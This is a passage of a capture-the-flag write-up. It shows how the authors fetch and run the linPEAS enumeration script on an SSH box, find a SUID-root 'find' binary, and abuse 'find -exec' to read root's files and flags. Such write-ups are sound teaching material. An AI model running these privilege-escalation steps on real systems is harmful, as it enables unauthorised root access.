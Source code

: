 We are now in and we are treated with the second flag!

>CTF{Th3_Inc3pt0r}

## Third part - MASTER

### Flag information
> Dig little deeper to take the control back from the AI. You will find out what you need only when you know who you are.

We just gained access to the ssh server. The only problem is that we aren't root and we don't know the password to gain access.

As we search around the file system we can find our next target.

The root folder needs elevated permissions to be accessed.

This is probably a non conventional approach but we decided to run linPEAS on it. We got this idea from another challenge found in this CTF (Protect the supply). You can find our write up on this challenge [here](protectthesupply.md).

To learn more about linPEAS visit here: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

For short it's a script that checks for multiple options of doing privilige escalation on linux.

We can upload the script using ftp to the .ssh folder by running:
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh

put ./linpeas.sh ../admin/.ssh/linpeas.sh
```

We can now just cd into the folder inside ssh.
In order to run the script we need to first run the following command:
```
chmod 700 linpeas.sh
```
After this we can just run it as normal.

The output of linpeas is huge but using the color coded severity flags we can see that it has found a vulnerability present inside the find utility
```
-rwsr-sr-x 1 root root 233K Nov  5  2017 /usr/bin/find
```
More exactly find actually runs as root!

We can easily exploit this to find what the root folder contains!
```
find / -type f -exec ls "/root/" \;
```
This command does an LS as root and we can see that the file ``final.txt`` is present.
We can now run the following command to see the contents:

```
find / -type f -exec cat "/root/final.txt" \;
CTF{!_@m_r00t3d}
```

We have now found the third and final flag of the challenge!

>CTF{!_@m_r00t3d}

This was one of the best challenges of the whole set!